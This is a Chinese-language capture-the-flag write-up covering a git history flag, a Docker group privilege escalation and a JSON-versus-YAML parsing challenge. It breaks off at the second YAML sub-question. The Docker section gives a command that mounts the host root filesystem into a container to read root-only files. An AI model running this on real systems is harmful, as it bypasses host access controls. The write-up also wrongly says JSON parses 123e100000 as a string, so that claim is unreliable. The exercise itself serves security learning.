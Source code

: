 ```
git show 505e1a3f446c23f31807a117e860f57cb5b5bb79
```

后找到撤销的flag

```
flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t}
```



## Docker for Everyone

X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 docker，他把同学的账号加入了 docker 用户组，这样就不需要给同学 sudo 权限了！

但果真如此吗？

去查询了一下后发现，Docker守护程序的访问权限是没有限制的，在docker容器中，可以具有和宿主机相同的权限，那能不能把flag给搬到容器里面，查询了一下后发现有一条挂载数据卷的命令可以实现这个操作

```
docker run -v /:/tmp/ -it alpine /bin/sh
```

cat flag发现有些问题，ls -al看了下是一个软链接，进到这个链接的目录下cat flag

```
/tmp/dev/shm # cat flag
```

得到flag

```
flag{u5e_r00t1ess_conta1ner_1d94c2e3ce_plz!}
```



## JSON ⊂ YAML?

第一问

根据这段话，可以分析出第一问的本质是在问yaml1.1和yaml1.2有什么区别，去学习了一下yaml，和json有些相似，由键值对，列表，还有块三种结构组合成的一种组织数据的语言。

```
小 Z 听闻这番言论后当场表示怀疑，立刻说出了一个字符串，JSON 和 YAML 解析出的含义存在差异。小 W 研究了一番才发现，这是因为很多主流的 YAML 库仍然是 YAML 1.1 的，它没有这个性质。他不得不承认：「好吧，这个性质只适用于 YAML 1.2。」
```

https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files

可以参考这篇文章，咱的payload是

```
123e100000
```

在yaml1.1中，这个表达式会被解析成科学计数法，json中会被解析成字符串



第二问
